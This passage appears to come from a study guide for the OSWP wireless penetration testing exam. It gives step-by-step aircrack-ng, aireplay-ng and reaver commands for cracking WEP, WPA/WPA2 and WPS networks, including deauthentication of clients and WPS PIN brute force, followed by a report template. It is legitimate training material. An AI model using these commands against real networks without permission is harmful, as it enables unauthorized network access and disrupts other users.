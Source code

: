 4. **Connection/Proof (5-10 min)**  
   - Connect to network
   - Obtain proof.txt
   - Take screenshots

### Common Attack Scenarios

#### Scenario 1: WEP Network
**Expected Approach:**
1. Start packet capture: `airodump-ng --bssid TARGET -c CHANNEL -w wep_attack wlan0mon`
2. Fake authentication: `aireplay-ng -1 0 -a TARGET -h YOUR_MAC wlan0mon`
3. Generate traffic: `aireplay-ng --arpreplay -b TARGET -h YOUR_MAC wlan0mon`
4. Monitor IV collection (need 20,000+ for 64-bit, 40,000+ for 128-bit)
5. Crack key: `aircrack-ng wep_attack.cap`
6. Connect and get proof

**Time Estimate:** 30-60 minutes

#### Scenario 2: WPA/WPA2 Network  
**Expected Approach:**
1. Start capture: `airodump-ng --bssid TARGET -c CHANNEL -w wpa_attack wlan0mon`
2. Wait for client or force handshake: `aireplay-ng -0 5 -a TARGET -c CLIENT wlan0mon`
3. Verify handshake capture in airodump-ng output
4. Crack handshake: `aircrack-ng -w wordlist.txt wpa_attack.cap`
5. Connect and get proof

**Time Estimate:** 30-75 minutes

#### Scenario 3: WPS Network
**Expected Approach:**
1. Scan for WPS: `wash -i wlan0mon`
2. Attack WPS PIN: `reaver -i wlan0mon -b TARGET -vv`
3. Try Pixie Dust if available: `reaver -i wlan0mon -b TARGET -vv -K 1`
4. Use recovered PSK to connect

**Time Estimate:** 60-120 minutes

### Documentation Requirements

#### Required Screenshots per Scenario
1. **Network identification** (airodump-ng output showing target)
2. **Attack execution** (tool commands and output)
3. **Key recovery success** (cracked password/key displayed)  
4. **Proof access** (browser showing proof.txt contents)

#### Report Structure Template
```markdown
# OSWP Exam Report - OS-XXXXX

## Executive Summary
Brief overview of scenarios completed

## Scenario 1: [Network Name]
### Network Information
- BSSID: AA:BB:CC:DD:EE:FF
- SSID: NetworkName
- Channel: 6
- Encryption: WPA2-PSK

### Attack Methodology
1. Reconnaissance
2. Handshake capture
3. Password cracking
4. Network access

```